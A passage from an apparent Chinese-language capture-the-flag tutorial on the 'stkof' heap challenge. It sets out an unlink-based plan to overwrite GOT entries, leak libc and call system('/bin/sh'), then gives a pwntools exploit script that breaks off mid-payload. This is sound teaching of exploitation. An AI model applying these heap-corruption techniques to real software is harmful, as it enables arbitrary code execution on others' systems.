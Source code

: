 根据上面分析，我们在前面先分配一个 chunk 来把缓冲区分配完毕，以免影响之后的操作。

由于程序本身没有 leak，要想执行 system 等函数，我们的首要目的还是先构造 leak，基本思路如下

- 利用 unlink 修改 global[2] 为 &global[2]-0x18。
- 利用编辑功能修改 global[0] 为 free@got 地址，同时修改 global[1] 为puts@got 地址，global[2] 为 atoi@got 地址。
- 修改 `free@got` 为 `puts@plt` 的地址，从而当再次调用 `free` 函数时，即可直接调用 puts 函数。这样就可以泄漏函数内容。
- free global[2]，即泄漏 puts@got 内容，从而知道 system 函数地址以及 libc 中 /bin/sh 地址。
- 修改 `atoi@got` 为 system 函数地址，再次调用时，输入 /bin/sh 地址即可。

代码如下

```python
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./stkof"
stkof = ELF('./stkof')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./stkof")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')
head = 0x602140


def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')


def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n')


def free(idx):
    p.sendline('3')
    p.sendline(str(idx))


def exp():
    # trigger to malloc buffer for io function
    alloc(0x100)  # idx 1
    # begin
    alloc(0x30)  # idx 2
    # small chunk size in order to trigger unlink
    alloc(0x80)  # idx 3
    # a fake chunk at global[2]=head+16 who's size is 0x20
    payload = p64(0)  #prev_size
    payload += p64(0x20)  #size
    payload += p64(head + 16 - 0x18)  #fd
    payload += p64(head + 16 - 0x10)  #bk
    payload += p64(0x20)  # next chunk's prev_size bypass the check
    payload = payload.ljust(0x30, 'a')

    # overwrite global[3]'s chunk's prev_size
    # make it believe that prev chunk is at global[2]
    payload += p64(0x30)

    # make it believe that prev chunk is free
```
